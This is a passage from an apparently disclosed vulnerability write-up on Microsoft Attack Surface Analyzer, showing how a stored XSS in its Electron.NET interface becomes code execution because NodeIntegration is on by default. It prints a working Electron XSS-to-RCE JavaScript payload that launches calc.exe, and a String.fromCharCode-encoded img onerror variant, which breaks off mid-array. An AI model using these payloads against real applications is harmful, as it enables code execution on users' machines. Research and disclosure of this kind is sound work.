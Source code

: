 When you navigate to the `Scan` tab, the application retrieves the information
for the latest submitted run (the one we submitted from host VM) and the
injected payload is executed. This means an attacker can connect to the app via
port `8001`, submit XSS and then it will pop in ASA when we use it locally.

# Vuln 3: XSS to RCE via NodeIntegration
Being Electron, I immediately thought of RCE. There are a lot of write-ups about
how you can convert an XSS to RCE in Electron. It's easy when `NodeIntegration`
is enabled which is the case for Electron.NET
([link to the current commit][electron.net-github-webpreferences]):

{{< codecaption title="WebPreferences.cs" lang="cs" >}}
/// <summary>
/// Whether node integration is enabled. Default is true.
/// </summary>
[DefaultValue(true)]
public bool NodeIntegration { get; set; } = true;
{{< /codecaption >}}

More info:

* [Electron Security - Do not enable Node.js Integration for Remote Content][electron-security-nodeintegration]

This means we can use the XSS to spawn processes in the guest VM running ASA.
Note that there are `NodeIntegration` bypasses so just disabling it might not be
enough.

### The RCE Payload
It's the typical `Electron XSS to RCE` payload. Google one and use it.

{{< codecaption title="XSS to RCE Payload" lang="js" >}}
var Process = process.binding('process_wrap').Process;
var proc = new Process();
proc.onexit = function(a,b) {};
var env = process.env;
var env_ = [];
for (var key in env) env_.push(key+'='+env[key]);
proc.spawn({file:'calc.exe',args:[],cwd:null,windowsVerbatimArguments:false,
    detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},
    {type:'ignore'}]});
{{< /codecaption >}}

Use the [JavaScript eval String.fromCharCode encoder][eval-encoder] to convert
it to the following. Then submit a new run with the payload as the `Run Id` from
the browser in the host machine (note that I have added a bogus `id` element to
make each payload unique):

```html
<img id="5" src=x onerror=eval(String.fromCharCode(118,97,114,32,80,114,111,99,
101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,
40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,
115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,
102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,
101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,
32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,
121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,
101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,
115,112,97,119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,
44,97,114,103,115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,
111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,
102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,
101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,
123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,
```

[electron.net-github]: https://github.com/ElectronNET/Electron.NET
[matt-twitter]: https://twitter.com/mattt_cyber
[electron-website]: https://electronjs.org/
[kestrel-docs]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel
[ASA-v2]: https://github.com/microsoft/AttackSurfaceAnalyzer/releases/tag/v2.0.143%2Bfe41ced7df
[modern.ie]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[lewis-twitter]: https://twitter.com/lewisardern
[electron.net-github-webpreferences]: https://github.com/ElectronNET/Electron.NET/blob/3cb92169dd1fc4ca917e1a48551192038f68bbec/ElectronNET.API/Entities/WebPreferences.cs#L18
[electron-security-nodeintegration]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md#2-do-not-enable-nodejs-integration-for-remote-content
[eval-encoder]: https://eve.gd/2007/05/15/javascript-eval-string-fromcharcode-encoder/
[main.js-startAspCoreBackend]: https://github.com/ElectronNET/Electron.NET/blob/131d1d9dd115d480b2c65353d44b9433b8b874f2/ElectronNET.Host/main.js#L141
[kestrel-filtering]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel#host-filtering
[electron-security]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md
[msrc-link]: https://msrc.microsoft.com/
[218-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/pull/218
[220-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/pull/220
[launchSettings-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/37bce60e86e1d727970be6e5aa6ba1a1d8083b35/Gui/Properties/launchSettings.json#L30
[collect-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/3dec668982b513f92cb9bc8a00ff57fdaada14da/Gui/wwwroot/js/Collect.js#L59-L98
[lambert-twitter-convo]: https://twitter.com/JohnLaTwC/status/1141765341061627904